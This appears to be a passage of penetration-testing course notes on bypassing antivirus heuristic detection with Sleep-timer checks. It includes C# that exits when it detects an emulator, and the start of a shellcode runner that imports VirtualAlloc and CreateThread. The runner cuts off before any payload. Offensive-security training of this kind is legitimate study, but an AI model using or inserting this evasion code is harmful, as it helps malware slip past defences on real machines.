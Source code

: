 ## **Bypassing Heuristic (Behavioral) Detection**

### **Sleep Timers**

One of the oldest behavior analysis bypass techniques revolves around time delays. If an application is running in a simulator and the heuristics engine encounters a pause or sleep instruction, it will "fast forward" through the delay to the point that the application resumes its actions. This avoids a potentially long wait time during a heuristics scan.

One simple way to take advantage of this is with the Win32 _Sleep_[1](https://portal.offsec.com/courses/pen-300/books-and-videos/modal/modules/introduction-to-antivirus-evasion/messing-with-our-behavior/simple-sleep-timers#fn1) API, which suspends the execution of the calling thread for the amount of time specified. If this section of code is being simulated, the emulator will detect the _Sleep_ call and fast-forward through the instruction.

If our program observes the time of day before and after the _Sleep_ call, we can easily determine if the call was fast-forwarded. For example, we can inject a two-second delay, and if the time checks indicate that two seconds have not passed during the instruction, we assume we are running in a simulator and can simply exit before any suspect code is run.

```csharp
[DllImport("kernel32.dll")]
static extern void Sleep(uint dwMilliseconds);
        
static void Main(string[] args)
{
    DateTime t1 = DateTime.Now;
    Sleep(2000);
    double t2 = DateTime.Now.Subtract(t1).TotalSeconds;
    if(t2 < 1.5)
    {
        return;
    }
```

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;

namespace ConsoleApp1
{
    internal class Program
    {
        [DllImport("kernel32")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32", CharSet = CharSet.Ansi)]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll", SetLastError = true)]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

		[DllImport("kernel32.dll")]
		static extern void Sleep(uint dwMilliseconds);
			
        static void Main(string[] args)
        {
			DateTime t1 = DateTime.Now;
```